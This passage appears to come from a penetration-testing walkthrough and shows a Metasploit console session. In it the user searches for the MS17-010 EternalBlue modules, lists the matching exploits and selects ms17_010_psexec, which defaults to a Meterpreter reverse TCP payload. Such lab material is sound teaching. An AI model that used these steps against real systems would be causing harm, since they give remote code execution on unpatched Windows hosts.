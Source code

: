 3 - Select Exploit & Payload, then Deliver
```js
msf6 auxiliary(scanner/smb/smb_ms17_010) > search eternal

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .
Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

msf6 auxiliary(scanner/smb/smb_ms17_010) > use 10
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > 
```
